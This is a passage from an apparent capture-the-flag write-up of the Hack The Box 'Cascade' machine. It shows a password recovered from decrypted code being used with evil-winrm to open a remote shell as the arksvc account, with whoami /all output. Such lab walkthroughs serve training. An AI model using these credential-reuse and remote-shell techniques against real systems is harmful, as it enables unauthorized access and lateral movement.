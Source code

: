 ![](/assets/img/5-decrypted.png)

After a little bit of work to make the code function as a stand-alone program, it gave me the password `w3lc0meFr31nd`.  _I'm not sure what the undecipherable characters are in the output, but luckily leaving them out did not cause any issues with logging in with this password._

### Moving Laterally to `arksvc`

```text
zweilos@kalimaa:~/htb/cascade$ evil-winrm -u arksvc -p w3lc0meFr31nd -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
```